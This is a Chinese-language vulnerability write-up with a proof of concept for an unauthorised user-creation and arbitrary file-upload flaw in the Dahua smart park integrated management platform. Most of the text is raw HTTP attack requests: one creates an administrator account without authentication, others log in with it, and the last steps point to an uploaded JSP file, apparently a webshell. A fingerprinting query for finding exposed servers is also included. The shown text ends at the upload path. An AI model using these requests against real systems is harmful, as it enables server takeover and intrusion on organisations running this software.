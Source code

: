 # 大华 智慧园区综合管理平台 user_save.action 任意文件上传漏洞

## 漏洞描述

大华 智慧园区综合管理平台存在未授权访问漏洞，攻击者通过构造特殊的请求包可以创建新用户，再利用文件上传漏洞获取服务器权限

## 漏洞影响

<a-checkbox checked>大华 智慧园区综合管理平台</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="dahua-智慧园区综合管理平台"</a-checkbox></br>

## 漏洞复现

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1645602936890-c40b0210-c98e-465a-b54d-4d5ce28cbdf1.png)



验证POC

```javascript
POST /admin/user_save.action HTTP/1.1
Host: 
Accept-Encoding: gzip
Content-Length: 914
Content-Type: multipart/form-data; boundary=----fxwrpqcy
Cookie: JSESSIONID=65A8F19555DC1EFB09B5A8B4F0F6921C
User-Agent: Go-http-client/1.1

------fxwrpqcy
Content-Disposition: form-data; name="userBean.userType"

0
------fxwrpqcy
Content-Disposition: form-data; name="userBean.ownerCode"

001
------fxwrpqcy
Content-Disposition: form-data; name="userBean.isReuse"

0
------fxwrpqcy
Content-Disposition: form-data; name="userBean.macStat"

0
------fxwrpqcy
Content-Disposition: form-data; name="userBean.roleIds"

1
------fxwrpqcy
Content-Disposition: form-data; name="userBean.loginName"

luqaahkf
------fxwrpqcy
Content-Disposition: form-data; name="displayedOrgName"

luqaahkf
------fxwrpqcy
Content-Disposition: form-data; name="userBean.loginPass"

lhndpuxl
------fxwrpqcy
Content-Disposition: form-data; name="checkPass"

lhndpuxl
------fxwrpqcy
Content-Disposition: form-data; name="userBean.groupId"

0
------fxwrpqcy
Content-Disposition: form-data; name="userBean.userName"

luqaahkf
------fxwrpqcy--
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1685601550330-287abfda-6d44-4494-9112-62c036842714.png)

```javascript
POST /WPMS/getPublicKey HTTP/1.1
Host: 
Accept-Encoding: gzip
Content-Length: 25
Content-Type: application/json
User-Agent: Go-http-client/1.1

{"loginName":"luqaahkf"}
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1685601590916-61722bfd-20d4-4ade-bbbd-6cd42868cd19.png)

```javascript
POST /WPMS/login HTTP/1.1
Host: 
Accept-Encoding: gzip
Content-Length: 271
Content-Type: application/json
User-Agent: Go-http-client/1.1

{"loginName":"luqaahkf","loginPass":"IxID6I8gKNSkCgu5UMwfRAhZpyvKKzu9q+dUngiieHiCTA52x3/uNB17NmAOletbzTOT46fLE5AOOMqMaqdDLA5rcsB3/Gql1qYwbNWLB6orKWpWEr9asUeNi/3ccIb95NUAXS1yn0l3ks94jbGT/CYbNq+JiBAeYlwcfdrqYkM=","timestamp":"16853622671401904168273612873678126378126387"}
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1685601635490-0460ae22-a43f-41f6-b5f5-9c9f0fc1d25c.png)

```javascript
/admin/login_login.action?subSystemToken=87a629bc14298c1533d8b52dd63e87f7
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1685601687291-eca6ddc6-ea74-48e4-8184-514d24160f33.png)

```javascript
/upload/axqvssmz.jsp
```

## 